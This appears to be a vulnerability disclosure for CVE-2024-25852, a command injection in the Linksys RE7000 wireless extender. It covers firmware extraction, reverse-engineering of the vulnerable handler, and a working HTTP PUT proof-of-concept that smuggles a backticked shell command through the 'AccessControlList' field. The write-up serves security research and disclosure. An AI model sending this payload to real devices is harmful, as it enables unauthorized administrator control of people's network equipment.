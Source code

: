 # Linksys RE7000 command injection vulnerability

## Vulnerability introduction

Product Description:

RE7000 is a new dual-band AC1900 wireless extender with seamless roaming function launched by Linksys.

Firmware download:

[https://downloads.linksys.com/support/assets/firmware/RE7000v2_PROD_FW_v2.0.15_211230_1012.bin](https://downloads.linksys.com/support/assets/firmware/RE7000v2_PROD_FW_v2.0.15_211230_1012.bin)

Vulnerability description:

The RE7000 wireless extender has a command execution vulnerability in the "AccessControlList" parameter of the access control function point. An attacker can use the vulnerability to obtain device administrator rights.

Affected versions:

RE7000 v2.0.9, RE7000 v2.0.11, RE7000 v2.0.15

Distribute CVE numbers:

CVE-2024-25852

## Vulnerability analysis

Vulnerability trigger point:

![](https://cdn.nlark.com/yuque/0/2024/png/25976713/1707376199229-b5c7b20a-8dfa-42d4-8973-ab11b79bbf6e.png#alt=https%3A%2F%2Fcdn.nlark.com%2Fyuque%2F0%2F2024%2Fpng%2F25976713%2F1707376199229-b5c7b20a-8dfa-42d4-8973-ab11b79bbf6e.png)

Use the binwalk tool to extract the firmware file system:

binwalk -Me --run-as=root RE7000v2_PROD_FW_v2.0.15_211230_1012.bin

Use the grep tool to quickly find vulnerability parameters:

grep -rl AccessControlList | grep .so

![](https://cdn.nlark.com/yuque/0/2024/png/25976713/1707376245009-faa8b767-3c67-4175-ada6-698e7ca185cd.png#alt=https%3A%2F%2Fcdn.nlark.com%2Fyuque%2F0%2F2024%2Fpng%2F25976713%2F1707376245009-faa8b767-3c67-4175-ada6-698e7ca185cd.png)

Use the IDA reverse tool to open the [libcbtjson.so](http://libcbtjson.so/) file and press Alt+t to search for the "AccessControlList" keyword:

![](https://cdn.nlark.com/yuque/0/2024/png/25976713/1707376456359-a15b0e7e-7498-4e36-a58a-97898f61365d.png#alt=https%3A%2F%2Fcdn.nlark.com%2Fyuque%2F0%2F2024%2Fpng%2F25976713%2F1707376456359-a15b0e7e-7498-4e36-a58a-97898f61365d.png)

Enter the ".rodata:0003B60C" read-only data address and see various types of parameter names, which are used to control different functions:

![](https://cdn.nlark.com/yuque/0/2024/png/25976713/1707376744134-cfa2ebd9-3b49-4c8d-8e45-87facd924a52.png#alt=https%3A%2F%2Fcdn.nlark.com%2Fyuque%2F0%2F2024%2Fpng%2F25976713%2F1707376744134-cfa2ebd9-3b49-4c8d-8e45-87facd924a52.png)

Enter the "set_accessControlList" function, obtain the incoming parameters a1 and a2 through the "set_value_nvram" function, format the a1 and a2 variables for output through the "fprintf" function, and finally substitute a2 into the "cbt_system" function to execute the system command.

![](https://cdn.nlark.com/yuque/0/2024/png/25976713/1707377071397-74cd7f3d-0afd-4ec3-88ea-632b715f12de.png#alt=https%3A%2F%2Fcdn.nlark.com%2Fyuque%2F0%2F2024%2Fpng%2F25976713%2F1707377071397-74cd7f3d-0afd-4ec3-88ea-632b715f12de.png)

## Vulnerability recurrence

Emulate or search network asset targets via qemu firmware:

![](https://cdn.nlark.com/yuque/0/2024/png/25976713/1711643640704-15dcfb2d-b1e7-4bc0-b851-adcfa202fa6e.png#alt=1)

Exploit POC:

```
PUT /goform/AccessControl HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Thu, 17 Sep 2020 11:24:58 GMT
If-None-Match: "14600429"
Content-Length: 81

{"AccessPolicy":"0","AccessControlList":"`ps>/etc_ro/lighttpd/RE7000_www/1.txt`"}
```

### Reappearance of v2.0.15 version

![](https://cdn.nlark.com/yuque/0/2024/png/25976713/1711643640843-1efc0eb3-d177-4536-bf46-3a72e17ef0c2.png#alt=3)

The BurpSuite tool sends the POC and executes the ps command to output to the 1.txt file:

![](https://cdn.nlark.com/yuque/0/2024/png/25976713/1711643640975-f0fd3622-e87a-4798-843c-80c63ad9a840.png#alt=5)

Access the 1.txt file to see that the attack was successful.

![](https://cdn.nlark.com/yuque/0/2024/png/25976713/1711643641155-f54c3628-f9c9-45dc-a874-e7e4cc2882d6.png#alt=6)



